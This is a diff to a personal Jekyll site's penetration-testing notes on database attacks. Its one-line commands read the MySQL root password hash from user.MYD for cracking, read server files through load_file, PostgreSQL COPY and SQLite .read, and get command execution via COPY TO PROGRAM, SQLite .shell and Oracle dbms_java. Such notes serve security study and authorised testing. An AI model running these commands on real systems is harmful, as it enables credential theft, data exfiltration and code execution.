

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/DatabaseAttacks.md, in a window 1280 px wide and 1400 px high, scrolled down 2160 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 3196 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
updated notes

```diff
--- a/markdown/DatabaseAttacks.md
+++ b/markdown/DatabaseAttacks.md
@@ -11,7 +11,8 @@
 - `mysql -u {username} -p -h {host IP} -P {port}`
 - Specifying multiple parameters `SELECT user, passhash FROM mysql.user WHERE user = '{username}'`
 - Enumeration:
-	- List all databases: `SELECT * FROM information_schema.tables;`
+	- List all databases: `SELECT * FROM information_schema.tables;` (or `show databases;`)
+    	- Use a database with `use {db_name};` and enum tables with `show tables;`
 	- Version: `SELECT @@version;`
 	- Current user: `SELECT system_user();`
 - MySQL RCE via SQLi
@@ -22,6 +23,10 @@
 	- Can also extract users/passwords and crack hashes
 	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)
 - Dumping MySQL: `mysqldump -h [host] -u [user] -p[password] --all-databases > mysql_all_dbs.sql`
+- If we're able to log in as the `mysql` user, we can sometimes read the `/var/lib/mysql/mysql/user.MYD` file containing the root password hash
+  - The password will be split into two parts, one following `root*` and the other at the bottom of the file
+    - Putting these together will yield something like `root:*{combined_password}` which can be cracked with `john`
+  - Can do sometimes do something similar with `SELECT load_file('{file}');` as the root mysql user
 
 
 ## MSSQL
@@ -97,19 +102,28 @@
 - Dumping MSSQL (table names): `Invoke-Sqlcmd -ServerInstance [server] -Username [user] -Password [password] -Query "SELECT name FROM master.sys.databases" | Format-Table -AutoSize > mssql_dbs.txt`
 
 ## SQLite
-- Use `sqlitebrowser` for viewing sqlite databases
+- Use `sqlitebrowser` for viewing sqlite databases visually
+  - If we want to quickly view a db, we can just `sqlite3 {db_file}`
+- Enumeration:
+  - We can view version with `.version`, databases with `.databases`, tables with `.tables`
 - Can't execute functions, but can load malicious files
 	- `SELECT load_extension('/tmp/malicious.so');`
+	- Outdated versions may have RCE CVEs
 - `SQLite CLI` allows command execution with `.shell {command}` or `.system {command}`
-- Outdated versions may have RCE CVEs
+- We can read files with `.read {filename}`
 
 ## PostgreSQL
-- Use `psql` for to connect to PostgreSQL databases
+- Use `psql -U {username}` for to connect to PostgreSQL databases (with `-d {db_name}` for a database)
+  - Then, we can list databases with `\l` and use `\c {db_name}` to connect to the database
+  - `\d` to list the tables once connected
 - Command execution with `COPY (SELECT '') TO PROGRAM 'bash -c "whoami"';`
 	- Requires superuser
 - Command execution with `SELECT pg_execute_server_program('id');`
 	- This won't require superuser, but will require `pg_execute_server_program`
 - Dumping PostgreSQL: `pg_dump -h [host] -U [username] -F c -b -v -f postgresql_all.dump postgres`
+- Read files using `COPY`
+  - Start by creating a table with `CREATE TABLE demo(t text);`
+  - Then `COPY demo FROM '{filename}';`, and then we can just read from the demo table
 
 ## Oracle
 - Comand execution with `EXEC dbms_java.runjava('java.lang.Runtime.getRuntime().exec("{command}")');`
```
Also changed, not shown: markdown/Internals.md (+2 -2 lines), webappnotes/SQLi.md (+2 -0 lines).
